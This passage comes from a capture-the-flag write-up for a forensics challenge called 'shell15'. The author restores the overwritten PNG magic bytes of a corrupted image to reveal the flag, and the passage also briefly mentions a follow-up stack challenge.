shell15@138.197.214.162;s password: 
flag                                                               100% 6365    33.7KB/s   00:00    
yakuhito@furry-catstation:~/ctf/foobar2020/shell15$ hexedit flag




00000000   58 58 58 58  0D 0A 1A 0A  00 00 00 0D  49 48 44 52  00 00 03 AF  XXXX........IHDR....
00000014   00 00 01 4D  08 02 00 00  00 60 E9 CE  1E 00 00 00  01 73 52 47  ...M.....`.......sRG
00000028   42 00 AE CE  1C E9 00 00  00 04 67 41  4D 41 00 00  B1 8F 0B FC  B.........gAMA......



The first 4 bytes of the file seemed to have been replaced with ‘XXXX’, meaning that the file was corrupted. I also saw ‘IDHR’ and ‘gAMA’, which are headers specific to the PNG image type. In order to see the image, I had to replace the ‘XXXX’ characters with the magic bytes for PNG, which can be found [on this list](https://en.wikipedia.org/wiki/List_of_file_signatures).



After that, I just opened the image and read the flag:



**Flag:** GLUG{corrupt\_but\_works}

## shell17: Stacks are cool. Again? {#shell17}



This problem was released because there was an unintended way to get the flag for ‘Stacks are cool’. However, I did not describe that method, so you can just read [the writeup for that challenge](#shell12).

## Footnote

I cannot post this article without including the picture below 🙂



